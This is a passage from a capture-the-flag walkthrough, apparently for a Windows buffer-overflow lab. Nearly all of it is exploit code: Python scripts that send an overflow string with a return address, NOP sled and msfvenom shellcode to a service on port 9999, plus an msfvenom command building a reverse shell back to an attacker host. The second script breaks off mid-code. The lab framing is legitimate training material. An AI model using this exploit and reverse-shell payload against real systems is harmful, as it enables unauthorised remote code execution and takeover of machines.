 ```shell
b"\x96\x7e\x25\xce\xc1\x28\x93\xa8\xbb\x9a\x4d\x63\x17\x75\x19"
b"\xf2\x5b\x46\x5f\xfb\xb1\x30\xbf\x4a\x6c\x05\xc0\x63\xf8\x81"
b"\xb9\x99\x98\x6e\x10\x1a\xa8\x24\x38\x0b\x21\xe1\xa9\x09\x2c"
b"\x12\x04\x4d\x49\x91\xac\x2e\xae\x89\xc5\x2b\xea\x0d\x36\x46"
b"\x63\xf8\x38\xf5\x84\x29")

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',9999))
      s.recv(1024)
      s.recv(1024)
      s.send(username + b'\r\n')
      s.recv(1024)
      s.send(message + payload + b'\r\n')
      s.recv(1024)
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

This gives us shell now we can change these to work on the target.

**After gaining access, what is the content of the root.txt file?**

- ``msfvenom -p windows/shell_reverse_tcp LHOST=10.x.x.x LPORT=7777 -b "\x00" -f c``

- adjust our payload to suit

```python
import socket
import sys

username = b"oskar"
message = b"A" * 2012 + b"\xdf\x14\x50\x62" + b"\x90" * 32
payload = (b"\xdd\xc4\xd9\x74\x24\xf4\x5e\xba\x5a\x94\x76\xdd\x2b\xc9\xb1"
b"\x52\x31\x56\x17\x83\xee\xfc\x03\x0c\x87\x94\x28\x4c\x4f\xda"
b"\xd3\xac\x90\xbb\x5a\x49\xa1\xfb\x39\x1a\x92\xcb\x4a\x4e\x1f"
b"\xa7\x1f\x7a\x94\xc5\xb7\x8d\x1d\x63\xee\xa0\x9e\xd8\xd2\xa3"
b"\x1c\x23\x07\x03\x1c\xec\x5a\x42\x59\x11\x96\x16\x32\x5d\x05"
b"\x86\x37\x2b\x96\x2d\x0b\xbd\x9e\xd2\xdc\xbc\x8f\x45\x56\xe7"
b"\x0f\x64\xbb\x93\x19\x7e\xd8\x9e\xd0\xf5\x2a\x54\xe3\xdf\x62"
b"\x95\x48\x1e\x4b\x64\x90\x67\x6c\x97\xe7\x91\x8e\x2a\xf0\x66"
b"\xec\xf0\x75\x7c\x56\x72\x2d\x58\x66\x57\xa8\x2b\x64\x1c\xbe"
b"\x73\x69\xa3\x13\x08\x95\x28\x92\xde\x1f\x6a\xb1\xfa\x44\x28"
b"\xd8\x5b\x21\x9f\xe5\xbb\x8a\x40\x40\xb0\x27\x94\xf9\x9b\x2f"
b"\x59\x30\x23\xb0\xf5\x43\x50\x82\x5a\xf8\xfe\xae\x13\x26\xf9"
b"\xd1\x09\x9e\x95\x2f\xb2\xdf\xbc\xeb\xe6\x8f\xd6\xda\x86\x5b"
b"\x26\xe2\x52\xcb\x76\x4c\x0d\xac\x26\x2c\xfd\x44\x2c\xa3\x22"
b"\x74\x4f\x69\x4b\x1f\xaa\xfa\x7e\xe2\xcb\x1b\x16\xe0\x33\xc2"
b"\x86\x6d\xd5\x90\x58\x38\x4e\x0d\xc0\x61\x04\xac\x0d\xbc\x61"
b"\xee\x86\x33\x96\xa1\x6e\x39\x84\x56\x9f\x74\xf6\xf1\xa0\xa2"
b"\x9e\x9e\x33\x29\x5e\xe8\x2f\xe6\x09\xbd\x9e\xff\xdf\x53\xb8"
b"\xa9\xfd\xa9\x5c\x91\x45\x76\x9d\x1c\x44\xfb\x99\x3a\x56\xc5"
b"\x22\x07\x02\x99\x74\xd1\xfc\x5f\x2f\x93\x56\x36\x9c\x7d\x3e"
b"\xcf\xee\xbd\x38\xd0\x3a\x48\xa4\x61\x93\x0d\xdb\x4e\x73\x9a"
b"\xa4\xb2\xe3\x65\x7f\x77\x13\x2c\xdd\xde\xbc\xe9\xb4\x62\xa1"
b"\x09\x63\xa0\xdc\x89\x81\x59\x1b\x91\xe0\x5c\x67\x15\x19\x2d"
b"\xf8\xf0\x1d\x82\xf9\xd0")

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
```